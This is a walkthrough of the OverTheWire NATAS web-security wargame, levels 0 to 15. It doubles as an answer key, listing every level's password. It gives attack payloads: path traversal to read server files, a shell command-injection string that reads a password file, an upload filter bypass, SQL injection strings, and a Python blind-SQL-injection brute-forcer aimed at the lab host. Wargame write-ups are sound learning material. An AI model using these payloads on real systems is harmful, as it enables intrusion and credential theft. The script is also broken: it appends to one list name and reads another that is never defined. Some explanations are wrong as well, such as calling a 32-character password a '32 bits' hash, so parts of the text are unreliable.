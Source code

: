# NATAS Walkthrough
A brief guide to solving NATAS Challenges on the OverTheWire platform. 

_Note: From challenge level 9 and above, I am just writing the hints that I noted while solving the challenges, which I used to write Python scripts (except for Challenge levels 12 and 13) that just scrapped the passwords. I hope to write a clearer and more beginner-friendly guide shortly._

Happy learning :)

## Natas answers for levels 1 - 15
### Level 0 -> 1
>Credentials are username - _natas0_	and password - _natas0_

In level 0, after logging in, right-click on the webpage to view the source code. The password for the next level will be mentioned in a comment in the source code.
 
### Level 1 -> 2
>credentials are username - _natas1_	and password - _g9D9cREhslqBKtcA2uocGHPfMZVzeFK6_

This level is similar to the previous level, only that right-click is now blocked. So instead we use the keyboard shortcut (_usually **ctrl+shift+c**, but could be different in the browser that you are using)  

### Level 2 -> 3
>Credentials are username - _natas2_ and password - _h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7_

We can view the source code at this level, but there are no comments. We do find another directory referenced in the source code as `<img src='files/pixel.png>` indicating that there is another directory where files exist. So you add the directory `/files` to the current URL. You should see a list of files in that directory and notice there is another file named _users.txt_. You should be able to find the password for the next level when reading this file.

### Level 3 -> 4
>Credentials are username - _natas3_	 and password - _G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q_

In the source code of this webpage, we find a comment that says `<!-- No more information leaks!! Not even Google will find it this time... -->` This hints us to look at the **_robots.txt_** file. So you add `/robots.txt` to the URL to view that file. This file tells 
search engines which directories they can or cannot crawl on the website. In this file, we find a directory that has not been allowed for crawling by bots, `s3cr3ts`. Now we replace the `/robots.txt` with the new found directory, and find the `users.txt` file, similar to the previous challenge. Here you will find the password for the next level.

### Level 4 -> 5
>Credentials are username - _natas4_	 and password - _tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm_

This level would require you to understand how to use Burpsuite (or another tool to manipulate headers). After logging into the website using the credentials found in the previous challenge, capture the headers that were sent in the GET request. Now, you will need to change the natas level from `natas4`(the rest of the value is the same) to `natas5`(the rest of the value is the same as the original). After changing the URL Referrer, send the GET request with the modified headers. You should be able to view the password for next level on the page content that gets returned to the request made. 

### Level 5 -> 6
>Credentials are username - _natas5_ and password - _Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD_

This level is similar to the previous level. The headers must be captured, and the login status must be changed from `False` to `True`. 

### Level 6 -> 7
>Credentials are username - _natas6_	and password - _fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR_

This level requires you to do more digging on the website. If you view the source code, there is a hint to the answer in the `/includes/secret.inc` page that is being referred to match the entered value. When you view that page, it is blank. This will confuse the attacker. However the referred variable in the source code of the main page is from the `secrets.inc` page, so there must be a variable with the correct value to unlock the password for the next level. If you view the source code of the blank page at `/includes/secrets.inc` you should find the variable that has the "secret" value that has been commented. 

### Level 7 -> 8
>Credentials are username - _natas7_ and password - _jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr_

The hint to find the answer that will give us the password is also in the source code. This time, the hint is direct and says that `<!-- hint: password for webuser natas8 is in etc/natas_webpass/natas8 -->`. This means that all we need to do is access this directory on their server to view the password for the next level. If you have used Linux before, then you must be familiar with using the `..` to change the working directory to the parent directory. If you haven't I would suggest you google about it and learn more, if possible try it out to understand better. There is a web vulnerability called Local File Inclusion, that allows a user to access the local files on a server using the `../` to go to the parent directory and then enter the directory that we want to view. When you view the "home" or "about" page, notice the keyword `?page=` in the URL. This will query the webserver to view the page mentioned after this keyword. So when we add the string `../../../../../../../etc/natas_webpass/natas8` after the `?page=` string in the URL and hit enter, the webpage should show the password for the next level. 

### Level 8 -> 9
>Credentials are username - _natas8_	and password - _a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB_

This time, you see a form field with a submit button. Similar to the previous challenges, we again begin by viewing the source code of the index page. Upon analyzing the source code, we understand that an encrypted key is already written in the source code. The encoded string has been encrypted using the function defined in the source code. 
`decodedstr = base64.b64decode(bytes.fromhex(encodedstr)[::-1]).decode('utf-8')`
### Level 9 -> 10
>Credentials are username - _natas9_  and password - _Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd_

inject the form field; hint " ; cat /etc/natas_webpass/natas10*"

### Level 10 -> 11
>Credentials are username - _natas10_	and password - _D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE_

inject the form field without ";", instead use "." (use the same injection string as used for the previous challenge)

### Level 11 -> 12
>Credentials are username - _natas11_	and password - _1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg_

XOR encryption. Encrypted string in the source code which also includes the order of encryption and encoding. 

### Level 12 -> 13
>Credentials are username - _natas12_	and password - _YWqo0pjpcXzSIl5NMAVxg12QxeC1w9QG_

upload a file, go to inspect > elements> change the random file name to the format that will unlock the password for the next level (a hint for this is in the source code).

### Level 13 -> 14
>Credentials are username - _natas13_	and password - _lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9_

Open the file in a notepad and then add image exif header `GIF87a` at the beginning and the rest is similar to natas12. You can use any other image exif headers as you just need to validate one of the functions that look for image exif headers on the file uploaded (see it in the source code). Refer to this Wikipedia page for other headers - https://en.wikipedia.org/wiki/List_of_file_signatures 

### Level 14 -> 15
>Credentials are username - _natas14_	and password - _qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP_

SQL injection string - username is `admin` and password is `" or "1"="1`

### Level 15 -> 16
>Credentials are username - _natas15_	and password - _TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB_

Blind SQL injection, its like trial and error method of performing SQL queries to retrieve the desired data (google to learn more).

Py code for blind injection. 
```python
import re, requests

url = 'http://natas15.natas.labs.overthewire.org/index.php'
auth = ('natas15','TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB') #auth creds from the previous challenge

passwordlist = []
ch = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789" #charset

#the next 2 lines were written to understand the response of the SQL query performed.
#resp = requests.get(url,auth=auth, params = {"username":"natas16\" and password like binary \"%"})
#print(resp.text)

#Then the rest of the code was built after understanding the TRUE and the FALSE response we received. 
for i in range(32): #we know that the hash is 32 bits long, so we will need to guess 32 characters and hence iterate 32 times.
    for j in ch: #iterate through every character from the charset
        resp = requests.get(url,auth=auth, params = {"username":"natas16\" and password like binary \""+"".join(passwdlist)+j+"%"}) #perform a get request
        if "This user exists" in resp.text: #if we get a TRUE response, it means a character matches the original hash. 
            print(f"The character no {i+1} of the password found is : {j}")
            passwordlist.append(j) #append the matching character to the hash
            break

password = "".join(passwordlist)

print(f"\nThe password for Natas Level 16 is : {password}")

```

Credentials for the next challenge which is level 16 -> 17 are username - _natas16_ and password - _TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V_ 
